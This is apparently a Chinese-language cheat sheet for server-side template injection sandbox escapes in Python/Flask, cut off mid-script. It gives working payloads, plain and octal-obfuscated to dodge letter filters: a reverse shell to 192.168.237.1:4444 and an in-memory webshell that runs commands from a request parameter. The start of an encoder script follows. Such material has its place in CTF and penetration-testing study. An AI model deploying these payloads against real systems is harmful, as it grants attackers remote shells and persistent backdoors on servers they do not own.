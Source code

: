 ::: danger
注意下面payload使用过程，需要换成实际索引，例如`os_wrap`的索引为`137`
:::

### 无字母反弹shell

使用`python3`反弹shell，反弹到攻击机的`192.168.237.1`，端口`4444`，注意`os.wrap类`索引修改为实际索引，例如`os_wrap`的索引为`137`

原payload

```python
''['__class__']['__base__']['__subclasses__']()[137]['__init__']['__globals__']['popen']('python3 -c \'import os,pty,socket;s=socket.socket();s.connect(("192.168.237.1",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")\'')['read']()
```

八进制

```python
''['\137\137\143\154\141\163\163\137\137']['\137\137\142\141\163\145\137\137']['\137\137\163\165\142\143\154\141\163\163\145\163\137\137']()[137]['\137\137\151\156\151\164\137\137']['\137\137\147\154\157\142\141\154\163\137\137']['\160\157\160\145\156']('\160\171\164\150\157\1563 -\143 \'\151\155\160\157\162\164 \157\163,\160\164\171,\163\157\143\153\145\164;\163=\163\157\143\153\145\164.\163\157\143\153\145\164();\163.\143\157\156\156\145\143\164(("192.168.237.1",4444));[\157\163.\144\165\1602(\163.\146\151\154\145\156\157(),\146)\146\157\162 \146 \151\156(0,1,2)];\160\164\171.\163\160\141\167\156("\163\150")\'')['\162\145\141\144']()
```

### 无字母打入内存马

使用`os.wrap`的内置函数`exec`打入内存马

原payload

```python
''['__class__']['__base__']['__subclasses__']()[137]['__init__']['__globals__']['__builtins__']['exec']("sys.modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None, []).append(lambda: __import__('os').popen(__import__('flask').request.args.get('a')).read())")
```

八进制

```python
''['\137\137\143\154\141\163\163\137\137']['\137\137\142\141\163\145\137\137']['\137\137\163\165\142\143\154\141\163\163\145\163\137\137']()[137]['\137\137\151\156\151\164\137\137']['\137\137\147\154\157\142\141\154\163\137\137']['\137\137\142\165\151\154\164\151\156\163\137\137']['\145\170\145\143']("\163\171\163.\155\157\144\165\154\145\163['\137\137\155\141\151\156\137\137'].\137\137\144\151\143\164\137\137['\141\160\160'].\142\145\146\157\162\145\137\162\145\161\165\145\163\164\137\146\165\156\143\163.\163\145\164\144\145\146\141\165\154\164(\116\157\156\145, []).\141\160\160\145\156\144(\154\141\155\142\144\141: \137\137\151\155\160\157\162\164\137\137('\157\163').\160\157\160\145\156(\137\137\151\155\160\157\162\164\137\137('\146\154\141\163\153').\162\145\161\165\145\163\164.\141\162\147\163.\147\145\164('\141')).\162\145\141\144())")
```

一个不够完善的脚本，仅供参考

```python
# 使用python环境执行命令反弹shell  
# payload = """''['__class__']['__base__']['__subclasses__']()[137]['__init__']['__globals__']['popen']('python3 -c \\'import os,pty,socket;s=socket.socket();s.connect(("192.168.237.1",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")\\'')['read']()""" 
# 内置函数exec打入内存马
payload = """''['__class__']['__base__']['__subclasses__']()[137]['__init__']['__globals__']['__builtins__']['exec']("sys.modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None, []).append(lambda: __import__('os').popen(__import__('flask').request.args.get('a')).read())")"""

payload8 = ''

def convert_char(char):
    """
```